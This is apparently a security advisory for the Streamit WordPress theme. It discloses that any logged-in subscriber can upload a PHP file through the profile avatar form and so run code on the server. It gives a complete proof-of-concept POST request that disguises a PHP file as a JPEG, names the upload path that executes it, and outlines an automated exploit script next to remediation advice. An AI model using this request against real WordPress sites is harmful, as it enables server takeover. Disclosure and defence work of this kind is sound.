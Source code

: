 # 🚀 Streamit WordPress Theme - Subscriber File Upload to RCE  

📌 **Product Information**    
**Platform** WordPress (Theme: Streamit)  
**Affected Feature**: Profile Avatar Upload  
**Tested Vulnerability**: Arbitrary PHP File Upload (Subscriber+)  
**CVE**: Not Assigned  
**Severity**: High (Authenticated File Upload => Remote Code Execution)  
**CWE ID**: CWE-434  
**CWE Name**: Unrestricted Upload of File with Dangerous Type  
**Patched**: ❌ Not Applicable  
**Patch Priority**: 🔴 High  
**Date Published**: June 12, 2025  
**Researcher**: Grac3  
**Link Product**: https://themeforest.net/item/streamit-video-streaming-wordpress-theme/29772881  

---

⚠️ **Summary of the Vulnerability**  
The Streamit WordPress Theme allows logged-in users with *subscriber* role to change their avatar via the following endpoint:

example :
```
/membership-account/your-profile/?view=change-password
```

However, the form handling this request does not properly validate uploaded file types when the `update_avatar` action is set. By abusing this, attackers can upload PHP files disguised as images and trigger Remote Code Execution.

## 🧪 Proof of Concept (PoC)  
**Sample POST Request:**

```
POST /membership-account/your-profile/?view=change-password HTTP/2
Host: target.com
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryKW4qPnvjzFXSGYQM
Cookie: [VALID SUBSCRIBER COOKIE]

------WebKitFormBoundaryKW4qPnvjzFXSGYQM
Content-Disposition: form-data; name="user_avatar"; filename="bq.php"
Content-Type: image/jpeg

ÿØÿà
<?php echo 'HELLO WORLD'; ?>
------WebKitFormBoundaryKW4qPnvjzFXSGYQM
Content-Disposition: form-data; name="update_avatar"

Change
------WebKitFormBoundaryKW4qPnvjzFXSGYQM
Content-Disposition: form-data; name="_wpnonce"

[VALID_NONCE]
------WebKitFormBoundaryKW4qPnvjzFXSGYQM
Content-Disposition: form-data; name="_wp_http_referer"

/membership-account/your-profile/?view=change-password
------WebKitFormBoundaryKW4qPnvjzFXSGYQM
Content-Disposition: form-data; name="action"

update-avatar
------WebKitFormBoundaryKW4qPnvjzFXSGYQM--
```

📁 **File Upload Behavior**
- The uploaded file must include the parameter `update_avatar` to be processed.
- Upon success, the file is saved in:

```
/wp-content/uploads/[year]/[month]/bq.php
```

✅ **Indicators of Success:**
- Status HTTP/2 200 OK
- Visiting `/wp-content/uploads/2025/06/bq.php` will execute the payload and print `HELLO WORLD`.

## 🔍 Where’s the Flaw?
- The file type is only superficially validated by MIME type.
- No server-side checks to restrict executable file types (like `.php`).
- Action `update_avatar` allows upload without checking user capabilities beyond basic authentication.

## 🔐 Recommendation
- Enforce strict MIME and extension checks server-side for file uploads.
- Restrict `update-avatar` functionality to roles above Subscriber.
- Disallow `.php`, `.phtml`, and similar dangerous file types explicitly.
- Monitor and log all uploads, especially in `/wp-content/uploads`.

## 📁 Script Features (Optional)
You may create a Python script to:
- Authenticate as a Subscriber.
- Upload a PHP payload via avatar change.
- Automatically retrieve uploaded path.
- Trigger uploaded file and verify execution.

## ⚠️ Disclaimer  
This information is provided for **educational and authorized testing** purposes only.  
**Do not** use it on systems without proper authorization.  
Unauthorized exploitation is illegal and unethical.

